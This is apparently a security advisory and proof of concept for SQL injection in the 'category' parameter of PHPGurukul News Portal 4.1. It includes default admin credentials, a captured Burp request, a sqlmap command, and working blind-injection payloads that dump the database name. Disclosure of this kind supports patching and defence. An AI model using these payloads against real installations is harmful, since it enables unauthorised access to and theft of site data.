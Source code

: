 # News Portal - SQL Injection - 2
+ **Exploit Title:** News Portal - SQL Injection - 2
+ **Date:** 2024-01-04
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://phpgurukul.com/news-portal-project-in-php-and-mysql/
+ **Software Link:** https://phpgurukul.com/?sdm_process_download=1&download_id=7643
+ **Version:** 4.1
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number

## Description:
News Portal System  4.1 allows SQL Injection via the 'category' parameter in "http://localhost/newsportal/admin/edit-category.php". Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/newsportal/admin/index.php"
+ Log in with `subadmin` :`Test@123`
+ Click manage category then click edit button.
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
POST /newsportal/admin/edit-category.php?cid=3 HTTP/1.1
Host: localhost
Content-Length: 58
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/newsportal/admin/edit-category.php?cid=3
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: language=en; continueCode=5vLeVxlRzkNb47vKDPMo5Lq8wdzLtvf1Hem0jn6EZm2ygrX19BpaQWOJY3oM; welcomebanner_status=dismiss; cookieconsent_status=dismiss; PHPSESSID=atd99ug4tbmj4a98tofev1o1ro
Connection: close

category=Sports&description=Related+to+sports+news&submit=
```

+ Use sqlmap to exploit. In sqlmap, use 'category' parameter to dump the database.
```
sqlmap -r r.txt -p category --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: category (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: category=Sports' WHERE 7047=7047 AND 4775=(SELECT (CASE WHEN (4775=4775) THEN 4775 ELSE (SELECT 9827 UNION SELECT 3603) END))-- -&description=Related to sports news&submit=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: category=Sports' WHERE 8635=8635 AND (SELECT 7111 FROM (SELECT(SLEEP(5)))PUdp)-- oNUa&description=Related to sports news&submit=
---
[18:36:41] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[18:36:41] [INFO] fetching current database
[18:36:41] [INFO] retrieving the length of query output
[18:36:41] [INFO] retrieved: 10
[18:36:43] [INFO] retrieved: newsportal             
current database: 'newsportal'
```
+ current database: `newsportal`

![Ekran görüntüsü 2024-04-01 014150](https://github.com/BurakSevben/CVEs/assets/117217689/284af719-6b5a-41af-bffb-c51e2d8d4df0)
